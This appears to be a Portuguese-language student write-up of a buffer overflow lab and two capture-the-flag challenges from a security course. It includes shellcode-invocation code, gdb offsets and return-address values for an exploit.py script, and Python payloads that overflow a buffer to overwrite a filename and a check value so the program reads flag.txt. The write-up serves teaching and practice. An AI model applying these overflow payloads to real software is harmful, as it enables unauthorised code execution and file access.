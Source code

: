 # Trabalho realizado na Semana #4

## Tarefa 1

No programa `call_shellcode.d`, é criada uma função func e é colocado no seu endereço de memória um código binário que abre uma shell. 

```c
char code[500];
strcpy(code, shellcode); // Copy the shellcode to the stack
int (*func)() = (int(*)())code;
func(); // Invoke the shellcode from the stack
```

Utilizando o ficheiro `Make` fornecido, são criados dois binários: `a32.out` e `a64.out`. Executando qualquer um destes podemos observar que é aberta uma shell. Isto acontece porque o programa chama a função `func`. No seu endereço de memória está o programa binário, sendo este o código executado.

## Tarefa 3

O primeiro objetivo do debugging é descobrir qual o endereço de retorno, e a posição inicial do buffer:

```bash
$ p $ebp
$1 = (void *) 0xffffcb68

$ p &buffer
$2 = (char (*)[100]) 0xffffcafc

```

Sabendo que o início da posição do buffer é o valor de $2 e a posição do valor de retorno é dado pelo ebp $1, podemos calcular o offset subtraindo os endereços $1- $2, obtendo assim o valor 108.

No entanto, como queremos que a função de retorno aponte para lá do fim da stack somamos também 4 bits ao offset.

Dadas estas informações podemos preencher a seguinte secção do ficheiro exploit.py

```py
# Decide the return address value and put it somewhere in the payload

ret    = 0xffffcb68         
offset = 108 + 4               

```

Para calcular o valor o início do shellcode fomos experimentando diferentes valores tendo em conta que
- este valor mais o tamanho do script não poderá exceder o tamanho do ficheiro
- o endereço de retorno irá apontar para perto daqueles imediatamente após o fim da stack

Por fim chegámos aos seguintes valores:

```py
# Decide the return address value and put it somewhere in the payload

start = 140             
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb68         # 
offset = 108 + 4                      

```

Que nos permitiram ter sucesso no ataque:

![title](screenshots/5_1.png)

# CTF Semana 5

## Desafio 1

Ao observar o ficherio `main.c` identificamos a seguinte vulnerabilidade: O buffer alocado para guardar o input tem 20 bytes, no entanto, a função `scanf` está a aceitar 28 bytes. A variável `meme_file` está localizada a seguir ao `buffer`. Quer isto dizer que o que for escrito nos extra 8 bytes do input será colocado em `meme_file`. Isto é um problema porque esta variável dita que ficheiro irá ser aberto. Podemos assim alterá-la para abrir o ficheiro `flag.txt`.

```python
s = b""
for i in range(20):
	s += b"a"
s += b"flag.txt\0"
```

Ao executar o programa com input `s`, este abre o ficheiro `flag.txt` e imprime os seus conteúdos, revelando a flag.

## Desafio 2

Neste novo programa foi introduzido um novo campo de verificação, `val`. Está localizado em memória entre `meme_file` e `buffer`. Quer isto dizer que para reescrever o `meme_file` com a mesma técnica utilizada anteriormente será necessário reescrever também em `val`. Não será problema uma vez que o `scanf` aceita agora 32 bytes e val tem apenas 4 de tamanho.

```python
s = b""
for i in range(20):
	s += b"a"
s += bytes.fromhex('2322fcfe')
s += b"flag.txt\0"
```

Desta vez colocamos também na string os 4 bytes extra necessários para o programa proceder à abertura do ficheiro. Mais uma vez, o programa abre o ficheiro `flag.txt` e revela a flag.
